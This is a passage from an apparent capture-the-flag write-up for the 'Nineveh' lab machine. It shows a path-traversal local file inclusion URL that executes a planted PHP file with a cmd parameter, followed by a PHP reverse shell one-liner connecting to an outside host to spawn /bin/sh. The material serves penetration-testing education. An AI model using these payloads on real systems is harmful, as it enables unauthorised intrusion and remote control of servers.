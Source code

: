 Now, let’s go back to the LFI vulnerability and execute our php code.

```text
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/random.php&cmd=ls
```

We get back the following page.

![](../images/max/956/1*lJlymLsD4O7ijnZqS2XJdg.png)

We have code execution! Let’s intercept the request in Burp and add a reverse shell to the cmd parameter.

First, visit pentestmonkey and get the code for a php reverse shell.

```text
php -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Then add the code to the cmd parameter in Burp and URL encode it \(Ctrl+U\).

![](../images/max/689/1*oX7F42n0flGOiLq1XrJf9A.png)

